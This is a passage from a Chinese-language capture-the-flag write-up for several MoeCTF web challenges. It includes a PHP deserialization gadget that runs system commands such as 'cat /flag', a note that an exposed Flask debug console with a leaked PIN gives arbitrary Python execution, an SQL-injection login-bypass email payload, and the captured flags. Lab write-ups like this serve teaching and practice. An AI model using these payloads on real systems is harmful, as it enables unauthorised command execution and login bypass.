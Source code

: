 ```php title="serialize.php"
}

$bInstance = new B("system");
$aInstance = new A("ls /", $bInstance);

$serializedString = serialize($aInstance);

echo $serializedString;
```

![](attachments/WEB-12.png)

需要注意其中 private 和 protected 类型的变量的字符串字符数不对，同时分析可知 `A evil` `A a` `B b` 之间应该有不可见字符，我们使用 `%00` 进行填充：

![](attachments/WEB-13.png)

可以看见有 flag，修改 `s:4:"ls /";` => `s:9:"cat /flag";` （当然也可能是个文件夹，用 `s:8:"ls /flag";`）

> [!FLAG]
>
> moectf{PlEA53_Klck-CFbb_beCAu53_hE_R41S3_p0PMoE-ln_W3ek1_haha0}


#### 07 泄漏的密码

[Hacking the Debugging Pin of a Flask Application](https://b33pl0g1c.medium.com/hacking-the-debugging-pin-of-a-flask-application-7364794c4948)

阅读上面的文章（在本题我们只需要看开头的部分即可），了解到 console 这个控制台，又有了 pin 码，那就直接登进去，[python 任意代码执行](attachments/WEB-15.png)了。

> [!FLAG]
>
> moectf{ DONt-u5iNG_FLASK-by_D3buG-MOd_AnD_Ie@k-YOUr_Pln7 }

### 电院_Backend

根据 login.php 源码，可以看出来是要登入，且是 SQL 注入（因为 Email 的正则表达式检查很简单），`aaa@bbb.com'%201=1%20#` [作为邮箱即可](attachments/WEB-22.png)；
